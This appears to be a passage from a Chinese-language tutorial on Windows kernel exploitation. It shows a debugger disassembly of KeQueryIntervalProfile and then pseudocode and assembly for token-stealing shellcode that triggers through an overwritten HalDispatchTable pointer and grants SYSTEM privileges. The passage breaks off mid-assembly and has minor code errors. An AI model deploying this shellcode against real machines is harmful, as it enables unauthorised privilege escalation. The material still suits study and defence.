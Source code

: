     1: kd> uf nt!KeQueryIntervalProfile
    nt!KeQueryIntervalProfile:
    fffff800`04202b70 4883ec38        sub     rsp,38h
    fffff800`04202b74 85c9            test    ecx,ecx  ; ecx不能为0，即NtQueryIntervalProfile的第一个参数
    fffff800`04202b76 7508            jne     nt!KeQueryIntervalProfile+0x10 (fffff800`04202b80)


    nt!KeQueryIntervalProfile+0x10:
    fffff800`04202b80 83f901          cmp     ecx,1 ; ecx不能为1
    fffff800`04202b83 7508            jne     nt!KeQueryIntervalProfile+0x1d (fffff800`04202b8d)

    // 这里执行shellcode
    nt!KeQueryIntervalProfile+0x1d:
    fffff800`04202ba3 ff15bf40e0ff    call    qword ptr [nt!HalDispatchTable+0x8 (fffff800`04006c68)]

shellcode运行在内核空间，它的主要作用是把当前用户的Token替换成SYSTEM的，这样我们
就拥有了SYSTEM的权限，思路和Linux下的一致，下面伪代码描述了shellcode的主要步骤：

    shellcode:
        // 恢复HalDispatchTable + 0x08原来的值，防止系统出错
        RestoreHalDispatchTable(OriginalPointer)

        // 得到进程列表
        atciveProcLinks = _ETHREAD->ApcState->Process->ActiveProcessLinks

        // 得到SYSTEM的TOKEN
        foreach proc in atciveProcLinks:
            pid = proc.UniqueProcessID
            if pid == 4:  // 4 是System进程的PID，它的所有者是SYSTEM
                systemToken = proc.Token
        
        // 替换当前进程的TOKEN
        foreach proc in atciveProcLinks:
            pid == proc.UniqueProcessID
            if pid = current_pid
                currentToken = systemToken;

汇编代码如下：

        cli
        pushfq

        ; 把HalDispatchTable+0x08原来的函数地址还原回去
        mov  rax, OriginalPointer
        push rax                   
        push rcx
        mov  rcx, [OverwriteAddr + OverwriteOffset]
        mov  qword ptr [rcx], rax

        mov  ecx, PID   ; ecx保存当前的PID
        push rbx,

        mov  rax, qword ptr gs:0x188  ; gs:0x188保存的是当前线程的_ETHREAD, 也是_KTHREAD。

        ; 得到 _KPROCESS
        ; 1: kd> dt nt!_ETHREAD
        ;    +0x000 Tcb              : _KTHREAD
        ; 1: kd> dt nt!_KTHREAD
        ;    +0x050 ApcState         : _KAPC_STATE
        ; 1: kd> dt nt!_KAPC_STATE
        ;    +0x020 Process          : Ptr64 _KPROCESS
        ; 得到_KPROCESS也就得到了_EPROCESS,因为：
        ;   1: kd> dt nt!_EPROCESS
        ;      +0x000 Pcb              : _KPROCESS
